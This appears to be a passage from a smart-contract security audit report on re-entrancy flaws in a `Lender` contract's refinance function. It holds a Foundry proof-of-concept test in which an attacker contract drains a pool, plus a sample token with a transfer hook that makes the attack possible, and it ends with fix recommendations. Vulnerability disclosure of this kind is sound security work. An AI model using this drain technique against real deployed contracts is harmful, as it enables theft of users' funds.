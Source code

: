 ```solidity
    assertEq(loanToken.balanceOf(address(attacker)), 0);

    // Exploit starts here
    vm.startPrank(attacker);
    Exploit1 attackContract = new Exploit1(lender, address(loanToken), address(weirdToken));
    weirdToken.transfer(address(attackContract), 100_000*10**18);
    uint256 debt = 10*10**18;
    uint256 collateral = 100_000*10**18;
    uint256 loanId = 0;
    uint256 newCollateral = 10*10**18;
    attackContract.attack(poolId, debt, collateral, loanId, newCollateral);

    // Pool has been drained
    assertEq(weirdToken.balanceOf(address(lender)), 0);
    assertLt(loanToken.balanceOf(address(lender)), 1_000*10**18);        // Pool has a debt
    assertEq(weirdToken.balanceOf(address(attacker)), 1_000_000*10**18); // Attacker has drained all the weirdTokens   
    assertGt(loanToken.balanceOf(address(attacker)), 0);                 // Attacker keeps the loan tokens
}
```

## Tools Used
Manual review + Foundry

## Recommendations
Follow the _Checks - Effect - Interactions_ (CEI) pattern by updating the loan variables before transfering the funds AND use nonReentrant modifiers


# [M-02-bis] - `Lender` contract can be drained by re-entrancy in `refinance` (debt)
## Summary
Tokens allowing reentrant calls on transfer can be drained from a pool.

## Vulnerability Details
Some tokens allow reentrant calls on transfer (e.g. `ERC777` tokens).
Example of token with hook on transfer:
```solidity
pragma solidity ^0.8.19;

import {ERC20} from "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";

contract WeirdToken is ERC20 {

    constructor(uint256 amount) ERC20("WeirdToken", "WT") {
        _mint(msg.sender, amount);
    }

    // Hook on token transfer
    function _afterTokenTransfer(address from, address to, uint256 amount) internal override {
        if (to != address(0)) {
            (bool status,) = to.call(abi.encodeWithSignature("tokensReceived(address,address,uint256)", from, to, amount));
        }
    }
}
 ```
This kind of token allows a re-entrancy attack in the `refinance` function. When the new `debt` is more than the current loan debt, the difference is sent to the borrower before updating the state.